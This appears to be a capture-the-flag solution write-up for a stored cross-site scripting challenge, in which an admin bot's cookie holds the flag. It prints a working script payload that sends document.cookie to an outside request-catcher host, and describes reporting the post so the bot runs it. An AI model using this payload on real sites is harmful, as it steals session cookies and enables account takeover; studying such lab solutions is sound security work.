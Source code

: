 # Solution

This challenge is an XSS attack. The goal is to inject a script that will steal the cookie of the admin bot (flag is in the cookies).

The user should create a new post with the following content:

```html
<script>document.location="https://marios.requestcatcher.com/?cookie="+document.cookie</script>
```

Then the user should report the post to the admin bot. When the admin bot views the post, the script will execute and send the cookies to the attacker's server. 

